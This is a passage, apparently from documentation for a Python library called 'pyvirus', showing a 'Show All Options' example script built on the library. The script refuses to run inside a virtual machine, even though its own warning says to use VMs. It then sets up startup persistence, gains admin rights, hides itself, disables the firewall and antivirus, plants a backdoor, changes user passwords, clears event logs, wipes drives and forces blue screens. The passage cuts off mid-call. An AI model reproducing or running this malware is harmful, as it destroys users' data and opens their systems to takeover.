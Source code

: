 ```python
if __name__ == "__main__":
    final_attack()
```

### Project 3: Show All Options

> **Final Warning:**  
> Running this project can cause severe damage to your system. This code calls all the functionalities of the library in a combined manner. Execute it only in isolated and controlled environments (such as virtual machines).

```python
from pyvirus import *


if TOOLS.Are_we_in_virtual_machine()==True:
    print('This script can run only on a real system!')
    exit()


else:

    TOOLS.Set_StartUP()
    if TOOLS.is_admin()==False:
        TOOLS.Get_Admin_Access()
    TOOLS.hide_virus()
    VIRUS.Start_Self_Running_Network(10)
    VIRUS.Show_On_Screen("Its Virus!")

    VIRUS.down_firewall()
    VIRUS.down_antivirus()
    VIRUS.down_internet_network()
    VIRUS.make_backdoor()
    VIRUS.change_password_users()



    if TOOLS.platform()=='Windows':
        
        TOOLS.run_functions_parallel(
            VIRUS.WINDOWS.Kill_power_button,
            VIRUS.folder_make,
            VIRUS.file_make,
            VIRUS.open_cmd,
            VIRUS.Mouse_Spamming,
            VIRUS.Keyboard_Samming,
            VIRUS.Kill_All_Tasks_System,
            VIRUS.set_null_Event_Log,
            VIRUS.BlueScreen_Kill_Windows_systemdrive,
            VIRUS.BlueScreen_Kill_Windows_system32,
            VIRUS.Kill_All_Drive,
            VIRUS.user_make,
            VIRUS.Kill_Drive_Data,
            VIRUS.Full_Drive_Evil,

            VIRUS.WINDOWS.BlueScreen_Kill_Windows_attrib,
            VIRUS.WINDOWS.down_task_manager_proc,
            VIRUS.WINDOWS.down_task_manager_reg
    )
    else:

        TOOLS.run_functions_parallel(
            VIRUS.folder_make,
            VIRUS.file_make,
```